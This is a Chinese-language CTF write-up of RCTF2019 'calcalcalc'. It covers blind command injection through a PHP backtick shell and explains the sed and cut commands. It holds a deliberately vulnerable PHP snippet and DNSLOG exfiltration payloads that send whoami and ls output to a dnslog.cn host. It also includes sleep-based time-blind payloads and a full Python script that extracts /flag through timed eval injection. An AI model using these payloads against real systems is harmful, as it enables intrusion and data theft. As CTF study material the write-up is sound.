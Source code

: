 # [RCTF2019]calcalcalc 命令执行的时间盲注

首先让我们多了解一些姿势

## DNSLOG注入攻击

![image-20210810210337783](web/points/image-20210810210337783.png)

这是一个常见的反引号代码执行

现在将代码修改为：

```
<?php
highlight_file('index.php');
$cmd = $_GET['cmd'];
`$cmd`;
?>
```

我们知道命令肯定是shell_exec了，但关键是我们该如何得到该命令的回显呢？

经过网上冲浪，发现了两种方法，一种是用dns查询，一种是利用curl命令

下面是我的尝试复现过程

- ### 在vps布置上述的代码


```
为了方便调试加了一行
<?php
highlight_file('index.php');
$cmd = $_GET['cmd'];
`$cmd`;
echo `$cmd`;
?>
```

- ### http://www.dnslog.cn/ 上请求临时域名

（个人域名注册备案过程实在是有点繁琐，等域名备案完成后我会再次尝试）

![1](web/points/1.png)

截图是这样的

### 然后在网站上请求

```
/?cmd=curl%20`whoami`.e4bj32.dnslog.cn

或者是

ping%20`ls`.e4bj32.dnslog.cn
```

然后我们能看见上面的结果。

执行了ls命令并且返回了查询到的第一条信息，但是问题是这并不完整。

在sql中我们可以使用limit来确定偏移量，那么在linux中有什么方法呢？

## SED

Linux sed 命令是利用脚本来处理文本文件。

sed 可依照脚本的指令来处理、编辑文本文件。

Sed 主要用来自动编辑一个或多个文件、简化对文件的反复操作、编写转换程序等。

```
-n, --quiet, --silent
               suppress automatic printing of pattern space
-e script, --expression=script
               add the script to the commands to be executed
-f script-file, --file=script-file
               add the contents of script-file to the commands to be executed
--follow-symlinks
               follow symlinks when processing in place
-i[SUFFIX], --in-place[=SUFFIX]
               edit files in place (makes backup if SUFFIX supplied)
-l N, --line-length=N
               specify the desired line-wrap length for the `l' command
--posix
               disable all GNU extensions.
-r, --regexp-extended
               use extended regular expressions in the script.
-s, --separate
               consider files as separate rather than as a single continuous
               long stream.
-u, --unbuffered
               load minimal amounts of data from the input files and flush
               the output buffers more often
-z, --null-data
               separate lines by NUL characters
    --help     display this help and exit
    --version  output version information and exit
    
    
参数说明：
    -e<script>或--expression=<script> 以选项中指定的script来处理输入的文本文件。
    -f<script文件>或--file=<script文件> 以选项中指定的script文件来处理输入的文本文件。
    -h或--help 显示帮助。
    -n或--quiet或--silent 仅显示script处理后的结果。
    -V或--version 显示版本信息。

动作说明：

    a ：新增， a 的后面可以接字串，而这些字串会在新的一行出现(目前的下一行)～
    c ：取代， c 的后面可以接字串，这些字串可以取代 n1,n2 之间的行！
    d ：删除，因为是删除啊，所以 d 后面通常不接任何咚咚；
    i ：插入， i 的后面可以接字串，而这些字串会在新的一行出现(目前的上一行)；
    p ：打印，亦即将某个选择的数据印出。通常 p 会与参数 sed -n 一起运行～
    s ：取代，可以直接进行取代的工作哩！通常这个 s 的动作可以搭配正规表示法！例如 1,20s/old/new/g 就是啦！ 
```

![kali-2021-08-11-14-00-38](web/points/kali-2021-08-11-14-00-38.png)

我们再尝试一下`ls | sed -n '1p'`

![2](web/points/2.png)

成功查看到了ls 指令的其他内容。

*打出来的信息可能会受到长度的限制，这又该如何解决呢？*

## cut

```
-b, --bytes=LIST        select only these bytes
-c, --characters=LIST   select only these characters
-d, --delimiter=DELIM   use DELIM instead of TAB for field delimiter
-f, --fields=LIST       select only these fields;  also print any line
                          that contains no delimiter character, unless
                          the -s option is specified
-n                      (ignored)
    --complement        complement the set of selected bytes, characters
                          or fields
-s, --only-delimited    do not print lines not containing delimiters
    --output-delimiter=STRING  use STRING as the output delimiter
                          the default is to use the input delimiter
-z, --zero-terminated    line delimiter is NUL, not newline
    --help     display this help and exit
    --version  output version information and exit


参数:

    -b ：以字节为单位进行分割。这些字节位置将忽略多字节字符边界，除非也指定了 -n 标志。
    -c ：以字符为单位进行分割。
    -d ：自定义分隔符，默认为制表符。
    -f ：与-d一起使用，指定显示哪个区域。
    -n ：取消分割多字节字符。仅和 -b 标志一起使用。如果字符的最后一个字节落在由 -b 标志的 List 参数指示的
    范围之内，该字符将被写出；否则，该字符将被排除
```

我们再来尝试：`ls | sed -n '3p' | cut -c 3`![kali-2021-08-11-14-10-04](web/points/kali-2021-08-11-14-10-04.png)

## Time-Based-RCE

提交：

```
?cmd=if [1=1];then sleep 10;fi
//真，浏览器沉默10s
?cmd=if [1=2];then sleep 10;fi
//假，浏览器立即响应
```

类似sql注入的时间盲注，利用响应时间来判断，我们就可以达到匹配字符的目的，利用后端来帮我们猜解答案

因此 payload:

```
?cmd = if [$(whoami|base32|cut –c 1)=O];then sleep 10;fi
```

## calcalcalc

写完了没点保存，看payload理解吧

```
import requests
from time import time

url = 'http://6816f9f6-a412-4c2b-bf5b-85130b7d25e4.node4.buuoj.cn:81/calculate'


def encode(payload):
    return 'eval(%s)' % ('+'.join('chr(%d)' % ord(c) for c in payload))


def query(bool_expr):
    payload = "__import__('time').sleep(5) if %s else 1" % bool_expr
    t = time()
    r = requests.post(url, json={'isVip': True, 'expression': encode(payload)})
    # print(r.text)
    delta = time() - t
    print(payload, delta)
    return delta > 5

def binary_search(geq_expression, l, r):
    eq_expression = geq_expression.replace('>=', '==')
    while True:
        if (r - l) < 4:
            for mid in range(l, r + 1):
                if query(eq_expression.format(num=mid)):
                    return mid
            else:
                print('NOT FOUND')
                return
        mid = (l + r) // 2
        if query(geq_expression.format(num=mid)):
            l = mid
        else:
            r = mid

# flag_len = binary_search("len(open('/flag').read())>={num}", 0, 100)
flag_len = 50
print('flag length: %d' % flag_len)

flag = ''
while len(flag) < flag_len:
    c = binary_search("ord(open('/flag').read()[%d])>={num}" % len(flag), 0, 128)
    if c:   # the bs may fail due to network issues
        flag += chr(c)
    print(flag)
```

这个是预期解

https://www.xctf.org.cn/library/details/6cf4733304d816ebb21ff2e4c810ee90ccb7f97f/